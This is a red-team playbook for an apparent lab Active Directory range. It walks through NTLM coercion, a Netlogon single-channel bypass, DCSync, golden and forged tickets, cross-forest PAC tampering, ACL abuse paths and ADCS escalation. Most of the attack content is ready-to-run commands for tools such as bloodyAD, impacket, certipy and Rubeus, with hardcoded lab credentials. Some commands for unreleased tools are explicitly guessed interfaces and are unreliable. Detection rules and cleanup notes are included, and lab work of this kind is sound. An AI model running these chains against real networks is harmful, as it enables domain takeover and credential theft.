| 096 | **NetExec `coerce_plus` (consolidated check)** 🆕 | `-M coerce_plus` | ⏳ Ready — single command checks PetitPotam/PrinterBug/DFSCoerce/MSEven. Use as Phase 5 pre-flight before individual exploit. See Campaign_suggestions.md #98 |

#### 096 — NetExec `coerce_plus` — Consolidated Coercion Primitive Check 🆕

**Source:** NetExec v1.5.1 `-M coerce_plus` module. Replaces running individual coercion checks (WT017-020, plus MSEven).

**Why this is the new primary recon:**
- **One command** checks PetitPotam, PrinterBug, DFSCoerce, MSEven, MS-RPRN variants
- Faster than running 5 individual `nxc -M <each>` checks
- Returns a single verdict per coercion method
- Should be the **pre-flight** before deploying specific exploits

```bash
# Run against all DCs
nxc smb 192.168.77.10,11,12 -u svc_mssql -p 's3rv1c3_MSSQL!' -M coerce_plus

# Output per DC:
# DC01:
#   DFSCoerce:  VULNERABLE
#   PetitPotam: VULNERABLE
#   PrinterBug: VULNERABLE
#   MSEven:     VULNERABLE
# DC02: similar
# DC03: similar
```

**CADRE applicability:** All 3 DCs presumed vulnerable to at least PrinterBug (MS-RPRN) since WT017 confirmed 12 fires on dc02. Run `coerce_plus` against all DCs to get full picture in one shot.

**When to use this over individual WT# checks:**
- **Phase 5 pre-flight** (before any coercion exploit) — get the full picture
- **Hardening validation** (after enabling mitigations) — verify all methods blocked
- **Quarterly assessment** — quick check that no new methods appear

**Telemetry:** Same as individual coercion modules (Suricata SID:1000050-1000053 for active exploitation; `coerce_plus` is a read-only check).

**Cross-references:** See Campaign_suggestions.md #98. Replaces the need for WT017-020 individual recon runs.

#### 094 — UnCanny Coerce: NTLM Coercion via Windows Store InstallService (0xHossam, 2026-06-19) ⏳

**Source:** https://github.com/0xHossam/UnCanny (cloned to `references/uncanny/UnCanny/`)
**MITRE:** T1187 Forced Authentication
**Vulnerability:** New NTLM coercion primitive via `Windows.Internal.InstallService.Control.InstallServiceControl` COM class (IID `e4893a99-9270-42b9-9a62-683d6ceed250`, vtable slot 8 = `CreateInstallServiceWork`). Loose-file AppX package registration gives a package whose `InstalledLocation` is a UNC; `InstallService.exe` running as `NT AUTHORITY\SYSTEM` then does `LoadLibraryW(<UNC>\InstallServicePlugin.dll)` which forces outbound SMB auth from the machine account.

**Pre-conditions to verify on CADRE VMs (BEFORE testing):**
```powershell
# Run on dc01/mbr01/mbr02 via WinRM from Kali
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\AppModelUnlock" -Name "AllowDevelopmentWithoutDevLicense"
# = 1 → UnCanny testable
# = 0 → need to enable first (admin change to playbook 00-domain-deploy.yml)
```

**Step 1 — Patch impacket FileSystemName (per author):**

```bash
# On Kali — patch impacket-smbserver to return NTFS instead of XTFS
# (AppX refuses to register on non-NTFS shares with 0x80073CFD)
sed -i 's/XTFS/NTFS/g' /usr/share/impacket/impacket/smbserver.py
```

**Step 2 — Start impacket SMB server with share:**

```bash
mkdir -p /tmp/coerce && cp references/uncanny/UnCanny/poc/AppxManifest.xml /tmp/coerce/
# setup.sh from repo also stages logo.png and dummy.exe
bash references/uncanny/UnCanny/poc/setup.sh
# or manual:
impacket-smbserver coerce /tmp/coerce/ -smb2support -username guest -password guest
```

**Step 3 — Trigger from mbr01 as standard user (e.g., `intern_blue`):**

```powershell
# Register the UNC package
Add-AppxPackage -Register \\192.168.77.60\coerce\AppxManifest.xml
# Note the Package Family Name returned

# Trigger the coercion
Invoke-InstallServiceCoerce.ps1 -AttackerHost 192.168.77.60 -Share coerce
```

**Step 4 — Capture machine account NTLM on Kali:**

- impacket-smbserver will log the auth attempt
- Crack with `hashcat -m 13100` (RC4) or `-m 19700` (AES256)

**Chain with existing campaign:**

- NTLM relay to ADCS ESC8 (Branch B) — standard user → dc01$ auth → ESC8 cert → DA
- DCSync using captured `dc01$` NTLM (requires admin on dc01$, which ESC8 provides)

*Detection rules (cadre- candidates):**

- `Add-AppxPackage -Register` with UNC path in command line (`logs-endpoint.events.process-`*)
- Outbound SMB from `InstallService.exe` (SYSTEM) to non-RFC1918 host (`logs-endpoint.events.network-*`)
- `CreateInstallServiceWork` COM call from non-system context (`Microsoft-Windows-COM` events)

**Status:** 🔬 Deferred — gated on Developer Mode check on dc01/mbr01/mbr02. If OFF, escalate decision on whether to enable in playbook. Per user 2026-06-19: "document only, defer test" — see Campaign_suggestions.md Track G for deferred path.

#### 095 — Onelogon Zero-Channel: Single-Channel NRPC Authentication Bypass (Pădurean, WOOT 2026) ⏳

**Source:** "Onelogon: An Authentication Bypass for Windows Active Directory via Single-Channel Netlogon" — Alexandru-Vlad Pădurean, WOOT 2026 (Aug 1-3 2026). Paper text at `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\woot2026-onelogon\woot2026-onelogon.txt`. Same author as `krbrelayx` (Kerberos relaying toolkit).
**MITRE:** T1190 (Exploit Public-Facing Application) + T1187 (Forced Authentication) + T1078.002 (Valid Accounts: Domain Accounts)

**Vulnerability:** MS-NRPC (Netlogon Remote Protocol) defines two channels:
- **Multi-channel** — direct TCP (typically port 135 EPM + high port). Used for DC-to-DC replication.
- **Single-channel** — TCP/445 (SMB) via `\PIPE\netlogon` named pipe. Used for client-to-DC authentication.

Post-Zerologon hardening (CVE-2020-1472 patch + SpecterOps "Renaissance of NTLM Relay Attacks" 2025 mitigations) added a **mandatory secure-RPC seal** requirement — but only to the multi-channel variant. **Single-channel NRPC over SMB accepts the legacy non-secure-RPC form.** This means the pre-Zerologon NRPC protocol is still reachable via SMB/445, exposing:
- **Zero-Channel (Section 5.2):** Call `NetrServerPasswordSet2` against target DC's machine account → set DC machine account password to attacker-known value → DCSync with new password → full domain takeover in 1 RPC call.
- **AES-CBC8 Downgrade (Section 5.1):** RFC 4753 weak DES challenge-response; compute hash of ANY password (machine, KRBTGT, user) offline.

**Author tested on:** Windows Server 2022 (latest patches). Server 2025 not explicitly tested but the single-channel path is identical on all Server 2016+ — hardening is what changed in 2020+, and it doesn't cover this path. **All 3 CADRE DCs (dc01/dc02/dc03) are presumed vulnerable** until proven otherwise.

**Pre-conditions (all met on CADRE):**

| # | Requirement | CADRE status |
|---|-------------|--------------|
| 1 | Network access to TCP/445 (SMB) on target DC | ✅ Default on all 3 DCs |
| 2 | Knowledge of target DC machine account name | ✅ `DC01$` / `DC02$` / `DC03$` — discoverable via Phase 0 Kerberos enum (SPNs are public) |
| 3 | NTLM relay of target DC machine account OR knowledge of machine account password | ✅ Achievable via WT017 (MS-RPRN PrinterBug coercion — 12 Suricata SID:1000050 fires confirmed) |

**Step 1 — Coerce target DC to authenticate to attacker listener (from Kali):**

```bash
# Capture DC machine account via WT017 PrinterBug (already working on CADRE)
coercer coerce -t 192.168.77.10 -l 192.168.77.22 -d cadre.local \
  -u svc_mssql -p 's3rv1c3_MSSQL!' --spoolsample
# OR if coercing dc02 (child.cadre.local):
coercer coerce -t 192.168.77.11 -l 192.168.77.22 -d child.cadre.local \
  -u svc_mssql -p 's3rv1c3_MSSQL!' --spoolsample
```

**Step 2 — Capture DC machine account NTLMv2 on impacket-smbserver:**

- impacket-smbserver logs the auth attempt from `DC01$` (or `DC02$`)
- Crack with `hashcat -m 5600 captured.txt cadre_passwords.txt` (NTLMv2)
- **CADRE-specific:** Machine accounts rotate automatically every 30 days — capture-then-crack window is short. Hashcat against `cadre_passwords.txt` (7 known passwords + 17 decoys, `ansible/files/cadre_passwords.txt`) is the fastest path.

**Step 3 — Run Onelogon Zero-Channel (predicted interface — gated on author PoC release):**

```bash
# Set DC machine account password to attacker-known value
python3 onelogon.py --dc 192.168.77.10 --dc-name DC01 \
  --auth 'DC01$:<cracked_hash>' \
  --set-password 'Pwn3dBy0ne!0g0n!'

# OR Onelogon AES-CBC8 — extract KRBTGT hash directly:
python3 onelogon.py --dc 192.168.77.10 --dc-name DC01 \
  --auth 'DC01$:<cracked_hash>' \
  --extract-hash krbtgt
# Output: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<NT_HASH>:::
```

**Step 4 — DCSync with new password (Zero-Channel path) or forge Golden Ticket directly (AES-CBC8 path):**

```bash
# Zero-Channel → DCSync → KRBTGT → Golden Ticket chain
impacket-secretsdump -just-dc 'cadre.local/Administrator@192.168.77.10' \
  -hashes :<new_dc01_hash>
# Now have full hash dump including krbtgt
python3 ticketer.py -nthash <KRBTGT_NT_HASH> -domain-sid S-1-5-21-... \
  -domain cadre.local Administrator
export KRB5CCNAME=/tmp/Administrator.ccache
impacket-psexec -k -no-pass cadre.local/Administrator@dc01.cadre.local
```

**Why this is more impactful than existing campaign paths:**

- **Single RPC call = DA.** No need for Kerberos ticket forgery, NTLM relay chain, or RBCD setup.
- **Works on patched Server 2025.** Bypasses every post-Zerologon hardening deployed since 2020 — including the Microsoft fixes that "patched" the original Zerologon.
- **No "vulnerable target" prerequisite.** Unlike WT017 which needs Print Spooler running, Onelogon works against any DC with SMB/445 exposed (default).
- **Direct KRBTGT theft via Section 5.1.** Bypasses DCSync entirely.

**Chain with existing campaign (5 routes from WT095):**

| Route | Downstream | Outcome |
|-------|-----------|---------|
| 1 | WT009 DCSync with new DC machine password | All hashes → KRBTGT → Golden Ticket |
| 2 | Direct AES-CBC8 → KRBTGT hash | Skip DCSync, instant Golden Ticket |
| 3 | RBCD on DC computer object (no Domain Controller OU protection) | DA via RBCD on dc01$ |
| 4 | Branch B ADCS ESC1 with new DA privs | DA cert → auth as any user |
| 5 | Phase 8 (Forest Trust) — compromise child DC's parent TGT, inject SID history | Enterprise Admin (CADRE trust has SID Filter OFF — verified in `01-core-ad.yml`) |

**Detection (cadre-* candidates):**

- **Suricata SID:1000098 (new):** Flag any non-DC source authenticating to `\PIPE\netlogon` over SMB/445. Normal client-to-DC traffic is fine; the signal is server-to-server patterns (DC machine accounts authenticating to other DCs is expected; any other source pattern is suspect).
- **WinSec 4662 (DS object accessed):** For Zero-Channel — `WriteProperty` on `CN=DC01,...,OU=Domain Controllers,...` with `ObjectType:unicodePwd` (or generic WriteProperty on the computer object) is the **highest-signal event**. Should NEVER happen in normal AD operation.
- **WinSec 4624 (logon) Type 3** from non-admin source shortly after SMB/445 to DC.
- **Zeek `zeek-smb.log`:** Named-pipe `netlogon` access from non-DC source. New Zeek notice in `cadre-nrpc.zeek` (script to be written).
- **Elastic KQL candidate:** `event.code:4662 AND winlog.event_data.ObjectDN:*CN=DC0* AND winlog.event_data.AccessMask:"0000000000000010"` (WriteProperty on DC machine account).
- **AES-CBC8 detection:** Weak DES challenge-response on NRPC. Zeek can't decode NRPC natively but Suricata can via SMB-dissector-on-netrlogon-pipe. New Suricata SID:1000099 for AES-CBC8 cipher in NRPC.

**Reset / Cleanup (CRITICAL):**

```powershell
# On the DC that was compromised (dc01 in this example):
Reset-ComputerMachinePassword -Server dc01.cadre.local -Credential (Get-Credential)
# This re-establishes the DC's machine account password with the DC itself
# Without this step, AD replication breaks across the forest
# Run from any DC in the same domain
```

**Status:** ⏳ Pending — gated on author PoC release post-WOOT 2026 (expected Aug 2026). Author's repo not yet published at time of this entry (2026-06-24, paper appears 7 days before conference). When PoC is released, add to:
- `references/sources/onelogon/` (clone, source-only)
- `references/onelogon-analysis.md` (full breakdown)
- External references #123+ in `external-references.md`
- Mechanics section in CAMPAIGNS-METADATA.md (currently stub)
- plan1.7 §16 (detection engineering)
- Update WT095 status from ⏳ to ✅ once executed in lab

**Pre-test verification checklist (do BEFORE author PoC release):**
- [ ] Confirm SMB/445 reachable from Kali to dc01.cadre.local
- [ ] Confirm SMB/445 reachable from Kali to dc02.child.cadre.local
- [ ] Confirm `DC01$` / `DC02$` / `DC03$` machine account names via `getTGT.py` no-pass test (should fail with KDC_ERR_PREAUTH_REQUIRED → confirms account exists)
- [ ] Verify WT017 PrinterBug still works (12 Suricata fires per existing test)
- [ ] Snapshot dc01, dc02, dc03 before testing (Restore required post-test)
- [ ] Prepare `Reset-ComputerMachinePassword` reset script ready to run after attack

#### Alternative: RBCD (WT007)

If you find GenericWrite on a computer object instead of unconstrained delegation:

```bash
bloodyAD --host dc02 -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' \
  add computer "FakePC$" "Password123!"
bloodyAD --host dc02 -d child.cadre.local -u svc_mssql -p 's3rv1c3_MSSQL!' \
  set rbcd "CN=mbr01,CN=Computers,DC=child,DC=cadre,DC=local" \
  "CN=FakePC,CN=Computers,DC=child,DC=cadre,DC=local"
```

#### Alternative: NTLM Relay (WT021-022)


| WT# | Protocol   | Target      | Condition                               |
| --- | ---------- | ----------- | --------------------------------------- |
| 021 | LDAP relay | dc01 (.10)  | Add Shadow Credentials via relayed auth |
| 022 | SMB relay  | mbr02 (.23) | SMB signing disabled                    |


#### G — Lateral Techniques (Inline)


| G WT# | Technique                 | Detection                 |
| ----- | ------------------------- | ------------------------- |
| 084   | WMI Lateral (T1047)       | Sysmon EID 1 (wmic.exe)   |
| 085   | WinRM Lateral (T1021.006) | Sysmon EID 1 (winrs.exe)  |
| 086   | RDP Lateral (T1021.001)   | WinSec 4624 Type 10       |
| 087   | Pass-the-Hash (T1550.002) | WinSec 4624 Type 3 (NTLM) |


### Phase 6 — Privilege Escalation (DCSync — WT009)


|                   |                                                                                      |
| ----------------- | ------------------------------------------------------------------------------------ |
| **Target**        | dc02 (.11) — DRSUAPI replication                                                     |
| **From**          | Kali                                                                                 |
| **Starting cred** | `dc02$` TGT (from Phase 5) or child DA                                               |
| **What you earn** | Child krbtgt hash + all user/computer hashes → **Domain Admin** in child.cadre.local |


```bash
export KRB5CCNAME=/tmp/dc02.ccache
impacket-secretsdump -just-dc child.cadre.local/ -dc-ip 192.168.77.11 -k
```

### Phase 7 — Forest Trust Escalation (SID History — WT010-012)


|                   |                                                   |
| ----------------- | ------------------------------------------------- |
| **Target**        | dc01 (.10) — root domain via parent-child trust   |
| **From**          | Kali                                              |
| **Starting cred** | Child krbtgt + child DA (from Phase 6)            |
| **What you earn** | **Enterprise Admin** in cadre.local → root krbtgt |


The child has a bidirectional transitive trust with the root. Forge a golden ticket with the root's EA SID injected via `-extra-sid`.

```bash
# Get root EA SID
impacket-lookupsid -hashes :<child_admin_nthash> cadre.local/Administrator@192.168.77.10
# Forge ticket with EA SID
impacket-ticketer -nthash <child_krbtgt_hash> -domain child.cadre.local \
  -domain-sid <child_sid> -extra-sid <root_EA_SID> Administrator
# Authenticate to dc01 as EA
impacket-psexec cadre.local/Administrator@192.168.77.10 -k -no-pass
```

**Stealth alternative — Diamond Ticket (WT012):** Modify a legitimate TGT instead of forging one.

**Targeted alternative — Silver Ticket (WT011):** Forge service-specific TGS for targeted access without DC contact.

#### G — Persistence (Inline)


| G WT# | Technique                    | Detection        |
| ----- | ---------------------------- | ---------------- |
| 088   | Scheduled Task (T1053.005)   | WinSec 4698      |
| 089   | Registry Run Key (T1547.001) | Sysmon EID 12-13 |


### Phase 8 — Cross-Forest + External Domain (WT033-039)


|                   |                                                                       |
| ----------------- | --------------------------------------------------------------------- |
| **Target**        | dc03 (.12) — range.local (external forest)                            |
| **From**          | Kali                                                                  |
| **Starting cred** | Cadre.local DA (from Phase 7) or `analyst_osint`                      |
| **What you earn** | `s3rv1c3_SCCM!` → `N@A_s3rv1c3!` → **range.local DA** → all 3 domains |


cadre.local has a bidirectional forest trust with range.local. Cross-forest Kerberoast to harvest the SCCM service account, then chain to NAA extraction.

```bash
# Cross-forest Kerberoast
impacket-GetUserSPNs cadre.local/chief_command:'C0mm@nd_Ch1ef!' \
  -target-domain range.local -dc-ip 192.168.77.12 -request

# Crack svc_sccm TGS → s3rv1c3_SCCM!
# Read NAA bait file on vault share
smbclient //192.168.77.23/vault -U range.local/svc_sccm%'s3rv1c3_SCCM!' \
  -c "get naa-rotation-notice.txt"
# Contains: "Network Access Account RANGE\svc_naa : N@A_s3rv1c3!"

# svc_naa is Domain Admin in range.local
impacket-psexec range.local/svc_naa:'N@A_s3rv1c3!'@192.168.77.12
impacket-secretsdump -just-dc range.local/svc_naa:'N@A_s3rv1c3!'@192.168.77.12
```

**Alternative SQL execution on mbr02 (WT042):** CLR Assembly — mbr02 has CLR enabled, `clr strict security=0`, and `TRUSTWORTHY ON` (per `09-sql-wsus-verify.yml`). Requires `analyst_t1` IMPERSONATE → linked server to mbr02 → CLR assembly for OS exec.

---

#### Skipjack — Cross-Forest Trust Downgrade via PAC Signature Corruption (Phase 8 alt) ⏳

**Source:** https://blog.ghostwolflab.com/redteam/786/ — "PAC 签名无效引发的域信任降级攻击" (Domain Trust Downgrade Attack Caused by Invalid PAC Signatures), 2026-06-23. See Campaign_suggestions.md #97.

**Vulnerability mechanism:**
- Kerberos PAC is signed with **two signatures** (service + KDC) for integrity
- When signature verification **fails**, Windows DCs have a **downgrade fallback**: look up user in local AD database + rebuild token from AD groups
- **In cross-forest trust scenarios where SID filtering is disabled**, an attacker can:
  1. Get a TGT in Forest A
  2. Modify PAC to inject Forest B's Domain Admins SID (`S-1-5-21-<B>-519`)
  3. **Delete or corrupt PAC signatures** (so verification fails)
  4. Submit forged TGT to Forest B's DC
  5. DC signature verification fails → enters downgrade mode
  6. Downgrade mode rebuilds token BUT keeps forged SIDs (SID filter OFF)
  7. **Attacker becomes Domain Admin in Forest B**

**CADRE applicability: HIGH** (all pre-conditions met):
- ✅ 2 forests (cadre.local, range.local) with cross-forest trust
- ✅ **SID Filter OFF** (verified in `01-core-ad.yml:50`)
- ✅ Attacker controls user in one forest (e.g., `intern_blue` in child.cadre.local)
- ✅ Target forest has user with same name OR SID injection allowed

**Skipjack vs current Phase 8 (Golden Ticket):**
| Method | Mechanism | Requires krbtgt hash? | Detection surface |
|---|---|---|---|
| Golden Ticket (current Phase 8) | Forge TGT with krbtgt hash + SID history | ✅ Yes (DCSync first) | Anomalous ticket encryption, no legitimate AS-REQ |
| **Skipjack (new)** | Modify legitimate TGT + corrupt signatures + inject SID | ❌ **No** | Legitimate AS-REQ + 4826 PAC verification failed |

**Test plan (gated on custom tool):**
```bash
# Step 1: Get legitimate TGT in child.cadre.local (Forest A)
# From Kali as intern_blue
getTGT.py child.cadre.local/intern_blue:'1nt3rn_Blu3!' -dc-ip 192.168.77.11
# Or Rubeus on mbr01
Rubeus.exe asktgt /user:intern_blue /password:'1nt3rn_Blu3!' /domain:child.cadre.local /dc:DC02.child.cadre.local /enctype:aes256

# Step 2: Modify PAC — inject S-1-5-21-<cadre.local-domain>-519 (Enterprise Admins)
# AND delete/corrupt PAC signatures
# (requires custom Rubeus build or skipjack_forge.py implementation)

Rubeus.exe asktgt /user:intern_blue /password:'1nt3rn_Blu3!' /domain:child.cadre.local \
  /injectSID:S-1-5-21-<cadre.local-domain>-519 /corruptSignature
# (Rubeus needs custom compile for /corruptSignature flag)

# Step 3: Submit forged TGT to target forest (cadre.local root DC)
Rubeus.exe asktgs /service:cifs/DC01.cadre.local /ticket:doIF... /ptt

# Step 4: Verify Domain Admin in cadre.local
Rubeus.exe describe /ticket:doIF...
# Should show: "Enterprise Admins" group SID present in token

# Step 5: Profit
dir \\DC01.cadre.local\C$
```

**Detection:**
- **WinSec 4826** (PAC verification failed) — primary signal
- **WinSec 4769** (TGS request) with corrupted PAC data
- **Zeek kerberos.log** — inter-realm TGT requests with anomalous auth-data
- **Suricata SID:1000015** extended for PAC signature anomalies
- **Defender recommended:** `HKLM\System\CurrentControlSet\Services\Kdc\Parameters\KdcValidatePac = 1`

**Why it's a Phase 8 alternative:**
- Doesn't require DCSync (no krbtgt hash needed)
- Tests downgrade behavior assumption (currently unverified for CADRE)
- Complements existing Phase 8 (different mechanism, same outcome: DA in target forest)
- High stealth if 4826 events not monitored

**Defense (per GhostWolfLab + Microsoft):**
- **Enable SID filtering** on all cross-forest trusts — closes the attack entirely
- **Force PAC validation:** Group Policy → `KdcValidatePac = 1`
- **Monitor 4826 events** (rare in healthy environment — should alert on any)
- **ESAE** (Enhanced Security Admin Environment) for high-priv accounts

**Status:** ⏳ Pending — needs custom Rubeus build with `/corruptSignature` flag, or `skipjack_forge.py` Python implementation per blog pseudocode. Test in lab after current Phase 8 (Golden Ticket) verified.

**Cross-references:**
- Campaign_suggestions.md #97 (full entry with mechanism, pre-conditions, references)
- Item #66 Forest Trust SID Filtering — root cause fix
- Item #67 CVE-2020-0665 Trust Bypass — related forest trust bypass
- Phase 8 (Forest Trust Escalation) — current SID injection via Golden Ticket

---

## Branches (Optional — Explore Adjacent Attack Surfaces)

---

### Branch A: ACL Abuse (cadre.local)


**Diverges from:** Phase 4 (BloodHound reveals ACEs).
**Converges to:** Phase 5+ (ACL abuse gives cadre.local DA, accelerating the main chain).
**Prerequisite:** Any cadre.local domain credential (e.g., `analyst_dfir`, `analyst_cloud`, `hunter_dfir`).

> 💡 **Pre-BloodHound visual scan:** Run [ADeleg](Phase 0 Step 7) first from mbr01 to visually confirm the 14 ACEs are deployed correctly. ADeleg's View by Trustee directly maps to attacker perspective — faster setup than BloodHound, no EDR alerts, and produces report-ready screenshots. Use BloodHound for deep path-finding queries; use ADeleg for visual verification.

The BH data at `/home/vagrant/20260602150159_bloodhound.zip` (cadre.local) was collected with a low-priv account. Load it into BloodHound CE and run:

```cypher
// Find all ACL edges from any user to high-value targets
MATCH p=(u:User)-[r]->(t) WHERE t.highvalue=true RETURN p

// Find ForceChangePassword paths specifically
MATCH p=(u:User)-[r:ForceChangePassword]->(t:User) RETURN p

// Find GenericWrite/GenericAll edges
MATCH p=(u:User)-[r:GenericAll|GenericWrite]->(t) RETURN p
```

The results reveal these ACE chains across all 3 domains:

**cadre.local (14 ACEs):**


| Path        | ACE#  | Source → Target: Right                               | Starting Cred      | Earns                            |
| ----------- | ----- | ---------------------------------------------------- | ------------------ | -------------------------------- |
| A (fastest) | 7     | `hunter_dfir` → `chief_command`: ForceChangePassword | `DF1R_Hunt3r!`     | `C0mm@nd_Ch1ef!` → DA            |
| B           | 3     | `Engineering-Cadre` → `Red-Cadre`: WriteDacl         | needs group member | DA via group escalation          |
| C           | 4     | `Cloud-Cadre` → `Agentic-Cadre`: GenericWrite        | needs group member | DA via Shadow Credentials        |
| D           | 5     | `analyst_dfir` → `OU=Command`: GenericAll            | `An@lyst_DF1R!`    | DA via OU inheritance            |
| E           | 6     | `ops_redcell` → `dc01$`: GenericWrite                | `R3dC3ll_0ps!`     | DC machine auth → DCSync         |
| F           | 1     | `analyst_cloud` → `Vulnerable-GPO`: GpoEdit          | `Cl0ud_An@lyst!`   | DA via GPO code exec             |
| G           | 10    | `eng_cloud` → `gmsaTools$`: ReadGMSAPassword         | `Cl0ud_Eng!`       | gMSA credential                  |
| H           | 8     | `lead_engineering` → `svc_ldap`: GenericAll          | `Eng_L3ad!`        | Service account control          |
| I           | 12    | `eng_agentic` → `OU=Agentic`: AllExtendedRights      | `Ag3nt1c_Eng!`     | OU-wide escalation               |
| J           | 11    | `analyst_purple` → `Cloud-Cadre`: WriteMember        | `Purpl3_An@lyst!`  | Group membership add             |
| K           | 9     | `Purple-Cell` → `OU=DFIR`: WriteProperty             | needs group member | Property write on DFIR           |
| L           | 2     | `eng_agentic` → `WMI-Filtered-GPO`: GpoEdit          | `Ag3nt1c_Eng!`     | WMI filter → code exec           |
| M           | 13+14 | `eng_agentic` → `DC=cadre`: GetChanges+All           | `Ag3nt1c_Eng!`     | **Direct DCSync** (no DA needed) |


**child.cadre.local (6 ACEs, plus ACE#18 in Main Spine):**


| Path | ACE# | Source → Target: Right                            | Starting Cred     | Earns                    |
| ---- | ---- | ------------------------------------------------- | ----------------- | ------------------------ |
| N    | 15   | `analyst_t1` → `OU=Operations`: GenericWrite      | `T13r_An@lyst!`   | OU object control        |
| O    | 16   | `lead_detection` → `svc_mssql`: GenericAll        | `L3ad_D3t3ct10n!` | SQL service control      |
| P    | 17   | `mgr_incident` → `Detection-Cadre`: WriteMember   | `Mgr_1nc1d3nt!`   | Group add to Detection   |
| Q    | 19   | `analyst_t3` → `Operations-Cadre`: WriteOwner     | `T33r_An@lyst!`   | Take group ownership     |
| R    | 20   | `dir_operations` → `mbr01$`: GenericWrite         | `D1r_0p3r@t10ns!` | RBCD on mbr01 → DA       |
| S    | 18   | `intern_blue` → `analyst_t2`: ForceChangePassword | `1nt3rn_Blu3!`    | **Main Spine** (Phase 2) |


**range.local (6 ACEs):**


| Path | ACE# | Source → Target: Right                              | Starting Cred       | Earns                         |
| ---- | ---- | --------------------------------------------------- | ------------------- | ----------------------------- |
| T    | 23   | `analyst_osint` → `svc_naa`: GenericAll             | `0S1NT_An@lyst!`    | DA → DCSync range.local       |
| U    | 21   | `Intelligence-Cadre` → `dc03$`: GenericAll          | needs group member  | DC machine → DCSync           |
| V    | 22   | `eng_tools` → `Adversary-Cadre`: WriteDacl          | `T00ls_3ng!`        | Group ACL control             |
| W    | 24   | `adversary_lead` → `dmsaPrivService$`: GenericWrite | `Adv3rsary_L3ad!`   | dMSA BadSuccessor → DC$ creds |
| X    | 25   | `analyst_malware` → `svc_sccm`: WriteProperty(SPN)  | `M@lw@r3_An@lyst!`  | SPN modification on SCCM      |
| Y    | 26   | `analyst_forensic` → `svc_naa`: AllExtendedRights   | `F0r3ns1c_An@lyst!` | Full control on NAA → DA      |


#### Path A — ForceChangePassword (WT015)

```bash
bloodyAD --host 192.168.77.10 -d cadre.local -u hunter_dfir -p 'DF1R_Hunt3r!' \
  set password "CN=chief_command,OU=Command,DC=cadre,DC=local" 'Pwn3d_DA!'
impacket-psexec cadre.local/chief_command:'Pwn3d_DA!'@192.168.77.10  # DA verified
```

#### Path B — WriteDacl Self-Escalate (WT013)

```bash
bloodyAD --host 192.168.77.10 -d cadre.local -u lead_engineering -p 'Eng_L3ad!' \
  add genericall "CN=Red-Cadre,OU=RedCell,DC=cadre,DC=local" "cadre.local\lead_engineering"
bloodyAD --host 192.168.77.10 -d cadre.local -u lead_engineering -p 'Eng_L3ad!' \
  add group-member "CN=Red-Cadre,OU=RedCell,DC=cadre,DC=local" "lead_engineering"
```

#### Path C — GenericWrite → Shadow Credentials (WT014)

```bash
certipy-ad shadow auto -u "analyst_cloud@cadre.local" -p 'Cl0ud_An@lyst!' \
  -account eng_agentic -dc-ip 192.168.77.10
```

#### Path D — GenericAll on OU (WT016)

```bash
bloodyAD --host 192.168.77.10 -d cadre.local -u analyst_dfir -p 'An@lyst_DF1R!' \
  set password "CN=chief_command,OU=Command,DC=cadre,DC=local" 'Pwn3d_DA!'
```

#### Path E — Shadow Credentials on dc01$ (WT008)

```bash
certipy-ad shadow auto -u "ops_redcell@cadre.local" -p 'R3dC3ll_0ps!' \
  -account dc01$ -dc-ip 192.168.77.10
certipy-ad auth -pfx dc01.pfx -dc-ip 192.168.77.10 -domain cadre.local -username dc01$ -ldap-shell
# In LDAP shell: DCSync as dc01$
```

#### Path F — GPO Abuse (WT023)

```bash
bloodyAD --host 192.168.77.10 -d cadre.local -u analyst_cloud -p 'Cl0ud_An@lyst!' \
  add gpo-task -n "Vulnerable-GPO" -t "Immediate" \
  -c "powershell.exe -enc <add_user_to_DA>"
gpupdate /target:computer /force  # On dc01
```

#### Path G — gMSA Extraction (WT024)

```bash
bloodyAD --host 192.168.77.10 -d cadre.local -u eng_cloud -p 'Cl0ud_Eng!' \
  get object 'gmsaTools$' --attr msDS-ManagedPassword
```

#### GPP Stored Password (Groups.xml)

A Groups.xml file on `\\dc01\SYSVOL\cadre.local\Policies\` contains a cpassword for `svc_backup`. GPP passwords use AES encryption with a well-known key — decrypt with `gpp-decrypt`.

```bash
gpp-decrypt "T6Zc9T0qO/pEh+eOXTnxky0jSJvWvPcvAKWwGSpFOqY"
# → svc_backup password
```

The `svc_backup` account is created with `acctDisabled=0` (active) and can be used for lateral movement to servers where backup agents run.

```

#### SPN Jacking — CVE-2026-25177 (WT027)

```bash
bloodyAD --host 192.168.77.10 -d cadre.local -u analyst_cloud -p 'Cl0ud_An@lyst!' \
  set object "CN=analyst_cloud,OU=Cloud,DC=cadre,DC=local" \
  servicePrincipalName -v "MSSQLSvc/mbr01.child.cadre.local:1433"
```

#### Persistence — AdminSDHolder (WT025)

After achieving DA, add GenericAll for your attacker on AdminSDHolder. SDPROP propagates to all protected groups every 60 min.

```bash
bloodyAD --host 192.168.77.10 -d cadre.local -u chief_command -p 'C0mm@nd_Ch1ef!' \
  add genericall "CN=AdminSDHolder,CN=System,DC=cadre,DC=local" "cadre.local\analyst_dfir"
```

---

### Branch B: ADCS (Certificate Services)


**Diverges from:** Phase 4 (BloodHound reveals ADCS templates).
**Converges to:** Phase 7 (certificate auth can give DA/EA without SID History).
**CA Server:** dc01.cadre.local — CA name `cadre-CA`.

> 💡 **Pre-Certipy visual scan:** Run [ADeleg](Phase 0 Step 7) from mbr01 first to visually identify ADCS template misconfigurations (ESC1-8) BEFORE running `certipy find -vulnerable`. ADeleg flags ESC4 (vulnerable template ACLs — WriteOwner/WriteDacl), ESC1 (enrollee supplies subject), ESC2 (any purpose EKU), ESC3 (enrollment agent EKU). Useful for quick triage without triggering Certipy's noisier LDAP queries.

AD CS is deployed on dc01 with **12 in-scope ESC misconfigurations**. Each exploits a different certificate service weakness. Template names in CADRE are prefixed `CADRE-ESC`*.


| ESC#  | Template                  | Vulnerability                                                                                      | Requires             |
| ----- | ------------------------- | -------------------------------------------------------------------------------------------------- | -------------------- |
| ESC1  | `CADRE-ESC1`              | Manager approval=False + Enrollee Supplies Subject + Client Auth EKU                               | Authenticated user   |
| ESC2  | `CADRE-ESC2`              | Any Purpose EKU (`2.5.29.37.0`) + Supply Subject                                                   | Authenticated user   |
| ESC3  | `CADRE-ESC3-Agent/Target` | Certificate Request Agent EKU + authorized signature                                               | Agent enrollment     |
| ESC4  | `CADRE-ESC4`              | Engineering-Cadre has WriteDacl on template                                                        | Template ACL write   |
